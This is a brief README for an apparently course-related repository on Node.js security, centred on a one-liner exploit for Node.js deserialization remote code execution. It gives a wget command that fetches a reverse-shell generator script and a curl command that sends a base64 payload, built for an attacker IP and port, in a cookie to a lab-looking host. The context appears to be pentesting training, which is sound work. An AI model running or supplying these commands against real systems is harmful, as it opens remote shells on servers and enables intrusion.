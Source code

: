 # Node.Js-Security-Course
Contents for Node.Js Security Course - https://opsecx.com/index.php/product/node-js-security-pentesting-and-exploitation/


## curl one liner to exploit nodejsserver serialization rce

### wget https://raw.githubusercontent.com/d-demirci/Node.Js-Security-Course/master/nodejsshell.py
### curl -v -H "Cookie:profile=$(python nodejsshell.py <attacker-ip> <attacker-port> | base64 | tr -d '\n' )"  http://10.10.10.85:3000 

this is specific to a MACHINE "some will know" 

**:https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
